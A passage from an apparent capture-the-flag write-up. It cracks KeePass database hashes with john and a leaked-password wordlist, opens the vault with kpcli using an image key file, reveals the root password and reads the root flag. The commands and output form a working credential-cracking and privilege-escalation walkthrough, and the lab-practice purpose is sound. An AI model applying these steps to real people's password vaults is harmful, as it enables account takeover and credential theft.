MyPasswords45:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a8$...
MyPasswords46:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a8$...
MyPasswords47:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a8$...
MyPasswords48:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a8$...
MyPasswords52:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a8$...
MyPasswords53:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a8$...
(the hashes have been trimmed to keep this code box readable)
12) john - Crack hashes
Crack the hashes using john!
I'm using seclists's darkweb2017-top10000.txt password list to crack the file.
Download seclists like so - apt install seclists
root@city64:~/ctf/safe/user# john --wordlist=/usr/share/seclists/Passwords/darkweb2017-top10000.txt --format=KeePass hashes.txt
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (KeePass [SHA256 AES 32/64 OpenSSL])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:03 0.31% (ETA: 12:38:49) 0g/s 7.920p/s 68.64c/s 68.64C/s myspace1..target123
0g 0:00:00:52 4.94% (ETA: 12:39:58) 0g/s 9.527p/s 67.30c/s 67.30C/s edward..135790
bullshit (MyPasswords47)
1g 0:00:03:07 21.91% (ETA: 12:36:39) 0.005345g/s 11.84p/s 77.49c/s 77.49C/s marcos..22222
1g 0:00:09:59 DONE 0.001668g/s 16.68p/s 102.0c/s 102.0C/s 21..starstar
Use the "--show" option to display all of the cracked passwords reliably
Session completed
One hash has been cracked! - bullshit - using IMG_0547.JPG as the key file.
13) kpcli - Retrieve root password
kpcli can be used to open MyPasswords.kbdx via the command line.
• open <file.kdb> [<file.key>]) opens a password database.
• show -f <entry number> displays and entry's password in plaintext (otherwise it prints it as red text on a red background)
◇ Alternatively, you can run show <entry number> and copy/paste the red block out to a text editor. The password will be pasted
root@city64:~/ctf/safe/user# apt install kpcli
...
root@city64:~/ctf/safe/user# kpcli
KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.
kpcli:/> help
...
open -- Open a KeePass database file (open <file.kdb> [<file.key>])
...
show -- Show an entry: show [-f] [-a] <entry path|entry number>
...
kpcli:/> open MyPasswords.kdbx IMG_0547.JPG
Please provide the master password: *************************
kpcli:/> ls
=== Groups ===
MyPasswords/
kpcli:/> cd MyPasswords
kpcli:/MyPasswords> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. Root password
kpcli:/MyPasswords> show -f 0
Title: Root password
Uname: root
Pass: u3v2249dl9ptv465cogl3cnpo3fyhk
URL:
Notes:
Back on the ssh session, switch user to root and grab root.txt.
user@safe:~$ su root
Password: u3v2249dl9ptv465cogl3cnpo3fyhk
root@safe:/home/user# cd ~
root@safe:~# cat root.txt
d7af235eb1db9fa059d2b99a6d1d5453